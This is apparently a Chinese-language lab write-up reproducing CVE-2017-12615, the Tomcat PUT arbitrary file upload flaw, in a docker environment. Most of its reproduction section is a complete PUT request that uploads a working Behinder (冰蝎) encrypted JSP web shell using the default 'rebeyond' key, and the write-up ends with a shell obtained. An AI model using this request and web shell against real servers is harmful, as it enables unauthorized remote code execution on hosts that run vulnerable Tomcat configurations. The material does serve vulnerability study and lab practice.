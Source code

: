 # 【CVE-2017-12615】Tomcat PUT上传漏洞

### 漏洞描述

​	CVE-2017-12615对应的漏洞为任意文件写入，由于配置不当(非默认配置)，导致可以使用PUT方法上传任意文件。

### 漏洞原理

​	在Tomcat配置文件设置了PUT上传方法，在web.xml文件，可以发现默认readonly为 true，当readonly 设置为 false 时，可以通过 PUT/DELETE 进行文件操控。

### 漏洞复现

- 先在kali中启动docker镜像

  ![image-20240628155359766](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240628155359766.png)

- 看到默认界面则启动成功

  ![image-20240628155537858](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240628155537858.png)

- 直接使用BurpSuit发送PUT请求构造Payload,点击发送即可，显示201即上传成功。

  ```
  PUT /shell.jSP/ HTTP/1.1 
  Host:192.168.41.132:8080
  Accept:*/*
  accept-Language:en
  User-Agent:Mozilla/5.0(compatible:SIE9.0:Windows NT 6.1:Win64:x64:Trident/5.0)
  Connection:close
  Content-Type:application/x-www-form-urlencoded
  Content-Length:5
  
  <%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
  ```

![image-20240628160405935](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240628160405935.png)

- 直接冰蝎直连，getshell成功。

  ![image-20240628160622866](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240628160622866.png)